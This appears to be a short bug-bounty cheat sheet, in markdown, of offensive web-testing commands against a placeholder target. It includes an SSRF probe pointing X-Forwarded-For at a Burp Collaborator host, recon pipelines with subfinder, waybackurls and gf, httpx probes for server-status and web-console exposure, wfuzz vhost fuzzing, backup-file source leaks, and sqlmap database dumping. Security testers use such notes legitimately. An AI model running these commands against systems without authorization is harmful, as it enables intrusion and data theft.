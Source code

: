 ### SSRF
---
```js
POST /something HTTP/1.0
HOST: abc.com
X-Forwarded-For: <burp-collab.net>
```
***Note:*** HTTP version change from 1.1 to 1.0
- [gf](https://github.com/1ndianl33t/Gf-Patterns) 
Tool Used to grep for things we know and we can also find a ssrf vulnerability.
***Usage***
```sh
subfinder -d abc.com | httprobe -c 100 > out.txt

cat out.txt | waybackurls | gf <keyword>
```
After manually check the URLs to make sure.

---

### Information Disclosures
> Install httpx
```sh
cat host.txt | httpx -path //server-status?full=true -status-code -conten-length
```
```sh
cat host.txt | httpx -ports 80,443,8009,8080,8081,8090,8180,8443 -path /web-console/ -status-code -content-length
```
---
***fuzz***
- use wfuzz
```sh
wfuzz -hc 403 -c -w enormousdns.txt -H "HOST:FUZZ.abc.com" abc.com
```
---
***Get source code***
```js
site.com/file.php  ====> 403
site.com/file.php~  ====> 200 ok <you will get source_code>
```
---
### SQL Injection
1. Found Blind SQL Injection 
2. use .sqlmap -r req -p vulns --dbs
3. if the backend db is firebird and if you can't retrive dbname or table
4. change payload to -r req -p vuln--level 3 --risk 3 --thread 8 --dbms Firebird --tables.

